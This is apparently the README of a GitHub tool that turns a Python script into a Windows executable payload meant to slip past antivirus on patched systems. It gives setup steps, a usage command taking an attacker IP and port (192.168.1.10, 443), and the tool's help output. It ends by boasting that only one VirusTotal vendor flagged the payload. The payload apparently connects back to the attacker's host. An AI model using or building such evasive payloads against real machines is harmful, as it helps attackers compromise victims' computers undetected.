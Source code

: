 ![GitHub language count](https://img.shields.io/github/languages/count/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub repo size](https://img.shields.io/github/repo-size/0xCyberY/Antivirus-Evasion-Py2exe)
![Lines of code](https://img.shields.io/tokei/lines/github/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub](https://img.shields.io/github/license/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub commit activity](https://img.shields.io/github/commit-activity/w/0xCyberY/Antivirus-Evasion-Py2exe)
![Twitter Follow](https://img.shields.io/twitter/follow/0xCyberY?style=social)

# Antivirus-Evasion-Py2exe
Simple python script to evade antiviruses on fully patched and updated Windows environments using a python then converted exe payload.

# Note: This script works only on Windows OS

# Prerequisite:
1. [Install Python 2.7.16 x86 for Windows](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)
2. [Install Py2exe 32 bits for Python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

## Usage:
``
python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443
``

``` C:\>python aepy2exe.py -h
                                Antivirus Evasion Py2exe
 ,.      .                         ,--.                         ;-.      ,-.
/  \     |   o     o               |                o           |  )        )
|--| ;-. |-  . . , . ;-. . . ,-.   |-   . , ,-: ,-. . ,-. ;-.   |-'  . .   /  ,-. . , ,-.
|  | | | |   | |/  | |   | | `-.   |    |/  | | `-. | | | | |   |    | |  /   |-'  X  |-'
'  ' ' ' `-' ' '   ' '   `-` `-'   `--' '   `-` `-' ' `-' ' '   '    `-| '--' `-' ' ` `-'
                                                                     `-'
usage: aepy2exe.py [-h] [-e EXECUTE] [-ip ATTACKER_IP] [-p PORT]

Antivirus Evasion Py2exe

optional arguments:
  -h, --help            show this help message and exit
  -e EXECUTE, --execute EXECUTE
                        execute py2exe
  -ip ATTACKER_IP, --attacker_ip ATTACKER_IP
                        specified attacker IP
  -p PORT, --port PORT  specified attcaker port

Example:
        C:\>python aepy2exe.py -e py2exe -ip <ip_address> -p <port>
        C:\>python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443 
```
``
The script will generate CyberY.py, build, and dist, Our execution file will be under dist.
``
![Output]()

In case there is an error such as The system cannot open the device or file specified.
Try hard!
# Conclusion
Keep in mind that attempting antivirus bypass is a game. Whenever a new evasion technique gets popular, antivirus vendors will eventually learn about itand update their signatures database to block it. Then, new evasion techniques will a rise, which will make vendors to add it to their signature database, and so on.

By the time of this writing, the payload was flagged as malicious by only one vendor on Virus Total.

![virus_total]()


